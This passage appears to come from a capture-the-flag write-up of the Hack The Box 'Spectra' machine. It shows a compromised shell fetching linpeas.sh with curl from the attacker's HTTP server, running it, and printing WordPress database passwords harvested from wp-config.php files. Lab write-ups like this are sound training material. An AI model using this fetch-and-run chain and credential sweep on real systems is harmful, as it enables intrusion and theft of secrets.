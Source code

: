 Lets play with linpeas:
```
┌──(kali㉿kali)-[~/htb-spectra/files]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

```

```
$ curl -XGET http://10.10.14.67:8000/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  317k  100  317k    0     0   944k      0 --:--:-- --:--:-- --:--:--  944k
$ ls -la
total 352
drwxr-xr-x 5 nginx nginx   4096 Mar 19 10:16 .
drwxr-xr-x 8 root  root    4096 Feb  2 15:55 ..
lrwxrwxrwx 1 root  root       9 Feb  4 12:41 .bash_history -> /dev/null
-rw-r--r-- 1 nginx nginx    127 Dec 22 05:46 .bash_logout
-rw-r--r-- 1 nginx nginx    204 Dec 22 05:46 .bash_profile
-rw-r--r-- 1 nginx nginx    551 Dec 22 05:46 .bashrc
drwx------ 3 nginx nginx   4096 Jan 15 15:55 .pki
drwx------ 2 nginx nginx   4096 Jan 15 15:53 .ssh
-rwxrwxrwx 1 nginx nginx 325018 Mar 19 10:16 linpeas.sh
drwxr-xr-x 2 nginx nginx   4096 Jan 15 15:55 log
$ ./linpeas.sh
/bin/sh: 96: ./linpeas.sh: Permission denied
$ bash linpeas.sh
```

Linpeas output:
```
[+] Searching Wordpress wp-config.php files
/usr/local/share/nginx/html/main/wp-config.php                                                                                                                                                                                               
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
define( 'DB_HOST', 'localhost' );

/usr/local/share/nginx/html/testing/wp-config.php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'devtest' );
define( 'DB_PASSWORD', 'devteam01' );
define( 'DB_HOST', 'localhost' );

/mnt/stateful_partition/dev_image/share/nginx/html/main/wp-config.php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
define( 'DB_HOST', 'localhost' );

/mnt/stateful_partition/dev_image/share/nginx/html/testing/wp-config.php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'devtest' );
define( 'DB_PASSWORD', 'devteam01' );
define( 'DB_HOST', 'localhost' );

```
